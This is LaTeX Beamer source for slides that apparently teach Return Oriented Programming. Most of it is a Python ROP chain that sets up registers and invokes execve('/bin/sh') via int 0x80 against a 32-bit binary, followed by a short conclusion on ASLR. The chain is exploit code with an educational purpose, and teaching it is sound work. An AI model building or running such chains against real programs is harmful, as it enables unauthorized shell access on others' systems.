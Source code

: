 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Generating the payload, init params}
    \begin{lstlisting}[style=code, language=python]
# write null byte after /bin/sh
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080506c0) # xor eax, eax ; ret
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
# write address of /bin/sh to ebx
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080f0f6c) # @ .data
# arguments and environment to ecx,edx
p += pack('<I', 0x0805e64f) # pop ecx; add al, 0xf6; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x00000000) # @ NULL
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, init params, syscall}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', 0x080506c0) # xor eax, eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08049b2a) # int 0x80
print p
    \end{lstlisting}
\end{frame}
\section{Conclusion}
\begin{frame}
    \frametitle{Conclusion}
    \begin{itemize}
        \item Return Oriented Programming is a very powerful technique
        \item It is able to execute any system call if there are enough rop gadgets
        \item There are many tools to simplify the process of finding ROP gadgets and generatating ROP payloads
        \item Modern desktops use aslr and other protection mechanisms $\rightarrow$ practically impossible to use ROP
    \end{itemize}
\end{frame}
\end{document}
